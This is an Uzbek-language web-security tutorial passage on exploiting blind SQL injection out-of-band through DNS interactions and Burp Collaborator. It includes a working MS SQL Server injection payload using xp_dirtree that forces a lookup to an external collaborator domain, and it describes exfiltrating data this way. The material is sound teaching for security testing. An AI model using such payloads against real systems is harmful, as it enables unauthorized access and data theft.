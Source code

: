 ## Blind SQL injection’ni **out-of-band (OAST)** texnikalari yordamida ekspluatatsiya qilish

Ilova oldingi misoldagidek SQL so‘rovini bajarishi mumkin, ammo uni **asinxron** tarzda amalga oshiradi. Ya’ni, ilova foydalanuvchining so‘rovini asosiy oqimda qayta ishlashda davom etadi, SQL so‘rovini esa boshqa oqim yordamida `tracking cookie` orqali bajaradi.

So‘rov hali ham SQL injection’ga zaif bo‘lsa-da, ilgari ko‘rib chiqilgan texnikalar bu yerda ishlamaydi. Chunki:

* Ilovaning javobi SQL so‘rovi qaytaradigan ma’lumotga bog‘liq emas
* Ma’lumotlar bazasi xatosi yuz berishiga bog‘liq emas
* Yoki so‘rovni bajarish uchun ketgan vaqtga ham bog‘liq emas.

Bunday holatda, blind SQL injection zaifligini **o‘z nazoratingizdagi tizimga tashqi tarmoq o‘zaro ta’sirlarini** (network interactions) majburlab yuborish orqali ekspluatatsiya qilish mumkin bo‘ladi. Bunday o‘zaro ta’sirlar injekt qilingan shartga qarab birma-bir ma’lumotni aniqlash uchun ishlatilishi mumkin. Bundan ham foydaliroq usuli — ma’lumotlarni to‘g‘ridan-to‘g‘ri shu tashqi tarmoq o‘zaro ta’siri orqali **exfiltratsiya qilish** (ya’ni, chiqarib yuborish).

Buning uchun turli xil tarmoq protokollaridan foydalanish mumkin, ammo odatda eng samaralisi bu **DNS (domain name service)** hisoblanadi. Chunki ko‘plab ishlab chiqarish (production) tarmoqlari normal tizimlarning ishlashi uchun zarur bo‘lgani sababli DNS so‘rovlarini tashqariga chiqishga (egress) ruxsat beradi.

Out-of-band texnikalardan foydalanish uchun eng oson va eng ishonchli vosita bu **Burp Collaborator** hisoblanadi. Bu server turli xil tarmoq xizmatlarining (DNS ham qo‘shilgan) maxsus implementatsiyalarini taqdim etadi. U sizga zaif ilovaga yuborilgan ma’lum **payload** natijasida tarmoq o‘zaro ta’sirlari yuzaga kelganini aniqlash imkonini beradi.

**Burp Suite Professional** ichida Burp Collaborator bilan darhol ishlashga sozlangan maxsus mijoz (client) mavjud. Batafsil ma’lumot uchun Burp Collaborator hujjatlariga murojaat qilishingiz mumkin.

---

**DNS so‘rovlari yuborilishini qo‘zg‘atish texnikalari** ishlatilayotgan ma’lumotlar bazasiga xosdir. Masalan, **Microsoft SQL Server** da quyidagi input orqali ma’lum domen bo‘yicha DNS lookup’ni majburlash mumkin:

```sql
'; exec master..xp_dirtree '//0efdymgw1o5w9inae8mg4dfrgim9ay.burpcollaborator.net/a'--
```

Bu kod ma’lumotlar bazasini quyidagi domen bo‘yicha DNS lookup amalga oshirishga majbur qiladi:

```
0efdymgw1o5w9inae8mg4dfrgim9ay.burpcollaborator.net
```

